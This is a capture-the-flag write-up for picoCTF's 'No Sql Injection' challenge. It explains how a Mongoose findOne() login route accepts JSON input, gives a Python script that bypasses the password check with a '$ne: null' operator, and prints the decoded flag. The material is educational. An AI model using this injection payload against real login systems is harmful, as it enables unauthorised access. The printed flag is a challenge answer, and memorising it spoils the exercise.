



```
No Sql Injection

Can you try to get access to this website to get the flag?
You can download the source here: https://artifacts.picoctf.net/c_atlas/37/app.tar.gz
```

Download, extract, and analyze the source code.



Open server.js to see a possibly vulnerable API route:



See the problem? It uses Mongoose (MongoDB library)'s `findOne()` function to get a user from MongoDB database.

This is called NoSQL Injection. Just like SQL Injection, we could enter malicious syntax to "sabotage" the query and get the data we want.

Both `email` and `password` allow JSON input, it's our golden ticket to enter MongoDB's query syntax. So yeah, let's do it.

Here's my Python script:

```py
import requests

URL = "http://atlas.picoctf.net:55596/login"

req = requests.post(URL, json={
    "email": "picoplayer355@picoctf.org",
    "password": "{ \"$ne\": null }"
    })

print(req.text)
```

In password, we use `$ne: null` which means "not equal to null". This will be always true, and Mongoose will happily ignore this and search based on Email input.



Decode the `token` (Base64-encoded), and boom.

```
echo "cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzY3YjFhM2M4fQ==" | base64 -d
```

Flag:

```
picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_67b1a3c8}
```
